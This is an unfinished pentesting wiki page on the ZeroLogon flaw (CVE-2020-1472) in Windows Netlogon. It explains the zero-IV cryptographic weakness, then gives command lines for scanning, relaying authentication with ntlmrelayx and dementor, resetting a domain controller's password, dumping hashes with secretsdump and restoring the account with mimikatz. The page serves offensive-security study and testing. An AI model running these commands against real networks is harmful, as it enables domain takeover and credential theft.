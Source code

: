 ```yaml
---
description: CVE-2020-1472
---
```


# 🛠️ ZeroLogon

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

Netlogon is a service verifying logon requests, registering, authenticating, and locating domain controllers. MS-NRPC, the Netlogon Remote Protocol RPC interface is an authentication mechanism part of that service. MS-NRPC is used primarily to maintain the relationship between a machine and its domain, and relationships among domain controllers \(DCs\) and domains.

MS-NRPC uses a custom and insecure cryptographic protocol \(i.e. it reuses a known, static, zero-value Initialization Vector \(IV\) in AES-CFB8 mode\) when establishing a Netlogon Secure Channel connection to a Domain Controller allowing for an Elevation of Privilege vulnerability. 

* **Concept \#1**: authentication through MS-NRPC uses AES-CFB8. This means that for 1 in 256 possibilities, every block of the ciphertext will be `\x00` bytes if both the IV and the plaintext are `\x00` bytes.
* **Concept \#2**: authentication through MS-NRPC uses a static and null IV \(only `\x00` bytes, hence partly validating concept \#1\).
* **Concept \#3**: MS-NRPC signing and sealing don't rely on the same vulnerable mechanisms but are optional and can be ignored.
* **Concept \#4**: machine accounts have an unlimited number of login attempts, hence allowing for an authentication bypass and the spoofing of these accounts thanks to concepts \#1 and \#2 \(by using a plaintext filled with `\x00` bytes and by doing enough attempts\).
* **Concept \#5**: the `NetrServerPasswordSet2`  call can be used to reset an account's password. The new password structure to supply in this call has to be encrypted with the same vulnerable mechanisms stated in concepts \#1 and \#2.
* **Concept \#6**: the password structure can be filled with `\x00` bytes, leading to the setting a new password of a 0 characters length for the target account.
* **Concept \#7**: all previous concepts can be chained to reset a domain controller's password and obtain domain-admin privileges.

## Practice

This exploit changes the NT hash of the domain controller computer account in the Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent denial of service, attackers can exploit the CVE, find the NT hash of the domain controller machine account before it was changed, and set it back in the AD.

### Authentication relay technique

```bash
ntlmrelayx -t dcsync://$domain_controller_2 -smb2support
dementor.py -d $domain -u $user -p $password $attacker_ip $domain_controller_1
```

### Password change \( ⚠ disruptive\)

{% hint style="danger" %}
This technique can break the domain's replication services hence leading to massive disruption, running the following "password change" technique is **not advised**.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
//todo

```bash
# Scan for the vulnerability (https://github.com/SecuraBV/CVE-2020-1472)
zerologon-scan 'DC_name' 'DC_IP_address'

# Exploit the vulnerability: set the NT hash to \x00*8 (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
zerologon-exploit 'DC_name' 'DC_IP_address'

# Obtain the Domain Admin's NT hash
secretsdump -no-pass 'Domain'/'DC_computer_account$'@'Domain_controller'

# Obtain the machine account hex encoded password with the domain admin credentials
secretsdump -hashes :'NThash' 'Domain'/'Domain_admin'@'Domain_controller'

# Restore the machine account password (https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py)
# Exemple zerologon-restore breaking/dc01@dc01 -target-ip 192.168.56.101 hexpass
zerologon-restore 'Domain'/'DC_account'@'Domain_controller' -target-ip 'DC_IP_address' -hexpass 'DC_hexpass'
```
{% endtab %}

{% tab title="Windows" %}
//todo

```bash
# (alternate option mimikatz) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'DC.DOMAIN.LOCAL'  /user:'DC_name$' /oldntlm:31d6cfe0d16ae931b73c59d7e0c089c0 /newntlm:'old_NThash'
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://www.secura.com/blog/zero-logon" caption="" %}

{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %}



